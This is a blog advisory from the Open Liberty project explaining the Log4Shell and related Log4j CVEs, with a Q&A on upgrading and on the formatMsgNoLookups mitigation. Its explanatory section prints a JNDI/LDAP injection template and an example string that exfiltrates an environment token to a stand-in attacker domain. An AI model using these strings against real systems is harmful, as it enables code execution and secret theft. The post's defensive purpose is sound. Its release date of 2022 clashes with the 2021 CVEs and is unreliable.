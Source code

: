---
layout: post
title: "Liberty Guide on Log4j CVE-2021-44228, CVE-2021-4104 and CVE-2021-45046"
# Do NOT change the categories section
categories: blog
author_picture: https://avatars.githubusercontent.com/u/10999780?s=460&u=1a66e468c70e84f54bf5a75c27881cc6133ccc20&v=4
author_github: https://github.com/Emily-Jiang
seo-title: Liberty Guide on Log4j CVE-2021-44228, CVE-2021-4104 and CVE-2021-45046
seo-description: Open Liberty Guide on understanding and solving Log4j CVE-2021-44228, CVE-2021-4104 and CVE-2021-45046
blog_description: Open Liberty provides this essential guide for Open Liberty customers to understand Log4j CVE-2021-44228, CVE-2021-4104 and CVE-2021-45046 and the suggestions how to mitigate this threat 
open-graph-image: https://openliberty.io/img/twitter_card.jpg
additional_authors:
- name: Alasdair Nottingham
  github: https://github.com/nottycode
  image: https://avatars3.githubusercontent.com/nottycode
---

On December 10th 2022 the Apache Logging project released a 2.15 release for Log4j2, a popular Java logging framework, to address a CVSS 10 scored CVE-2021-44228 known as Log4Shell. 
CVSS 10 is the highest severity score that can be assigned.


The Log4Shell vulnerability occurs due to a combination of a message lookup feature in Log4J V2 and how the Java Naming and Directory (JNDI) API works when connecting via LDAP. 
A common syntax for variable replacement in configuration is `${variable-name}`, the Log4J message lookup feature enables that capability for log messages. 
Log4J also has a special lookup function for resolving variables from an LDAP server. The syntax for this is `${jndi:ldap://<server name>/<object name>}`. 
When Log4J sees this string it will connect to the provided server to download the object to log the value. 
This will return a serialized object which the LDAP JNDI implementation will deserialize, if the JVM does not have a copy of the class for the serialized object it will use a copy available from the server. 

It is very common for applications using a logging framework to log untrusted input for debugging purposes in case of a failure. 
Meaning if an attacker can work out an input value that will be logged by the application it can insert this string into the payload and when it is logged the Java code will download code from the server controlled by the attacker and execute it. 
To add to the risk present by this lookup function the lookup function is recursive allowing for data exfiltration. Data exfiltration maybe possible even if the targeted LDAP server is not reachable. 
For example a string like `${jndi:ldap://${env.security_token}.<attacker domain>/a}` would resolve the security_token environment variable from the shell and then do a DNS lookup to resolve the IP address using the attackers controlled DNS server providing the hacker with the value of the security token.

Since the original `Log4Shell` Apache has issued two further CVEs affecting Log4J CVE-2021-4104 and CVE-2021-45046. 
As a result of this the recommendation is to upgrade all log4j usage to at least the 2.16 version.

Open Liberty does not ship log4j and as a result any data logged by Open Liberty will not put you at risk. 
However log4j is a widely used framework and your applications may make use of Log4J as a result we have prepared the following Q&A for developers seeking advice:


* Q1. If my applications use log4j, which version of log4j should I use to be safe?

You should update the version of `log4j2` to the latest version or `2.16` at a minimum. 

* Q2. If I am running with latest version of Java, am I protected? Do I still need to follow remediate steps? 

Log4Shell (`CVE-2021-44228`) is a vulnerability in the log4j2 open source project. Features in the most recent releases of Java mitigate some, but not all of the risk introduced by the Log4Shell vulnerability.


* Q3. It will take a long time to update all our applications is there anything we can do to mitigate in the meantime?

Provided `log4j` `2.10` or newer is being used setting the Java System property `log4j2.formatMsgNoLookups` to `true` will mitigate the `Log4Shell` vulnerability, but it will not protect against `CVE-2021-4104` or `CVE-2021-45046`. It should be noted that `Log4Shell` is CVSS 10 and the others require non-default configuration of log4j.


* Q4 How can I configure Liberty with `log4j2.formatMsgNoLookups`?

Create a `jvm.options` file in `${wlp.user.dir}/shared/jvm.options` with `-Dlog4j2.formatMsgNoLookups=true` on a line by itself. Then restart all servers for it to take effect. This will apply to all servers in that user dir.


* Q5. I cannot find `org/apache/logging/log4j/core/lookup/JndiLookup.class` in my log4j jar, am I vulnerable?

It is unlikely you are vulnerable. Most likely you are running `log4j1` which is not vulnerable, however you will be vulnerable to `CVE-2021-4104`.


* Q6. Could setting `log4j2.formatMsgNoLookups=true` have an effect on log4j 1.x or other non-log4j applications? Is it safe to set this parameter until we have checked every custom written part in our WAS environments? 

The setting should have no affect on non-log4j or log4j 1.x. It is a property related to log4j 2.x behavior. It also does not protect against `CVE-2021-45046`.

* Q7. If I set `log4j2.formatMsgNoLookups` to `true` will it affect my application use of log4j2?

Yes, that will be visible to any and all copies of `log4j2` that are in the JVM. This setting is not sufficient to protect against `CVE-2021-45046`.

* Q8. We are still running our own applications on Java 7 that use log4j2,  but the fixed version of log4j2 requires Java 8

The Apache Logging project released `2.12.2` which supports Java 7, upgrade to this version or a newer 3rd diget release. 

* Q9. Is IBM Java affected by this vulnerability?

IBM Java does not include the affected library, so it is not directly affected by this vulnerability. However, applications running on top of IBM Java may include vulnerable copies of the affected library and need their own remediation.


If you are WebSphere Application Server customers, please refer to https://www.ibm.com/support/pages/node/6525860[this blog] to learn about more on how to respond to these CVEs.
You might find the following blogs to be useful: 

* https://www.infoq.com/news/2021/12/log4j-zero-day-vulnerability/[Vulnerability Affecting Multiple Log4j Versions Permits RCE Exploit]
* https://blog.sebastian-daschner.com/entries/log4shell-and-how-to-fix[The Log4Shell vulnerability and how to fix it]
* http://slf4j.org/log4shell.html[Comments on the CVE-2021-44228 vulnerability from SLF4J]